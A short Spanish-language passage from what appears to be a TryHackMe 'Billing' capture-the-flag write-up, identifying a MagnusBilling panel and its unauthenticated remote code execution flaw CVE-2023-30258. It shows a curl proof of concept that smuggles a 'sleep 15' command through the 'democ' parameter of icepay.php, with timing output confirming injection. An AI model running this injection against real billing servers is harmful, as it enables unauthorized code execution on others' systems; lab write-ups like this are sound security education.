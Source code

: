 Comenzamos por el servicio HTTP, encontramos un panel de autenticación del software **MagnusBilling**, este utiliza **ExtJS** con versión *6.2.0.981*:
![](../assets/img/billing-tryhackme-writeup/2.png)

Buscamos información y exploits, encontramos una ejecución de código remoto sin autenticar con identificador **CVE-2023-30258** y con una prueba de concepto en este [artículo](https://attackerkb.com/topics/DFUJhaM5dL/cve-2023-30258).

Ejecutamos la prueba de concepto y vemos que funciona:
```console
curl -o /dev/null -s -w "%{time_total}\n" 'http://10.10.50.40/mbilling/lib/icepay/icepay.php?democ=iamhacked;sleep%2015;#'
15.180424
```
